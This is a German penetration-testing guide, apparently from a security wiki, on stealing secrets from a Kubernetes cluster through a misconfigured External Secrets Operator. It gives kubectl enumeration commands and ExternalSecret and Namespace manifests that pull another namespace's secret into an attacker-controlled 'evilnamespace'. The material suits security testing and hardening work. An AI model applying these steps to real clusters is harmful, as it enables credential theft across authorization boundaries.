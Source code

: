 # Externer Secret Operator

**Der ursprüngliche Autor dieser Seite ist** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Diese Seite gibt einige Hinweise darauf, wie Sie Geheimnisse von einem falsch konfigurierten ESO oder einer Anwendung stehlen können, die ESO verwendet, um ihre Geheimnisse zu synchronisieren.

## Haftungsausschluss

Die unten gezeigte Technik kann nur unter bestimmten Umständen funktionieren. Es hängt beispielsweise von den Anforderungen ab, die erfüllt sein müssen, um ein Geheimnis in einem Namespace zu synchronisieren, den Sie besitzen / kompromittiert haben. Sie müssen es selbst herausfinden.

## Voraussetzungen

1. Ein Standbein in einem Kubernetes / Openshift-Cluster mit Administratorrechten in einem Namespace
2. Lesezugriff mindestens auf ExternalSecret auf Cluster-Ebene
3. Finden Sie heraus, ob bestimmte Labels / Annotationen oder Gruppenmitgliedschaften erforderlich sind, die es ESO ermöglichen, Ihr Geheimnis zu synchronisieren. Wenn Sie Glück haben, können Sie beliebige definierte Geheimnisse frei stehlen.

### Informationen zum vorhandenen ClusterSecretStore sammeln

Angenommen, Sie haben einen Benutzer, der ausreichende Rechte hat, um auf diese Ressource zuzugreifen; beginnen Sie damit, zunächst die vorhandenen _**ClusterSecretStores**_ aufzulisten.
```sh
kubectl get ClusterSecretStore
```
### Externe Secret-Auflistung

Angenommen, Sie haben einen ClusterSecretStore mit dem Namen _**mystore**_ gefunden. Fahren Sie fort, indem Sie seine zugehörigen externen Secrets auflisten.
```sh
kubectl get externalsecret -A | grep mystore
```
_Diese Ressource ist namespace-spezifisch, daher sollten Sie die -A Option hinzufügen, um in allen Namespaces zu suchen, es sei denn, Sie wissen bereits, in welchem Namespace Sie suchen müssen._

Sie sollten eine Liste der definierten externalsecrets erhalten. Nehmen wir an, Sie haben ein externalsecret-Objekt namens _**mysecret**_ gefunden, das vom Namespace _**mynamespace**_ definiert und verwendet wird. Sammeln Sie weitere Informationen darüber, welche Art von Geheimnis es enthält.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Zusammenstellen der Teile

Von hier aus können Sie den Namen eines oder mehrerer Geheimnisnamen erhalten (wie im Secret-Ressourcen definiert). Sie erhalten eine Ausgabe ähnlich wie:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
* Nennen Sie einen ClusterSecretStore
* Name eines ExternalSecrets
* Name des Geheimnisses

Jetzt, da wir alles haben, was wir brauchen, können Sie ein ExternalSecret erstellen (und gegebenenfalls einen neuen Namespace patchen/erstellen, um die erforderlichen Voraussetzungen zu erfüllen, damit Ihr neues Geheimnis synchronisiert wird):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nach ein paar Minuten, wenn die Synchronisationsbedingungen erfüllt sind, sollten Sie in der Lage sein, das durchgesickerte Geheimnis innerhalb Ihres Namensraums anzuzeigen.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referenzen

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
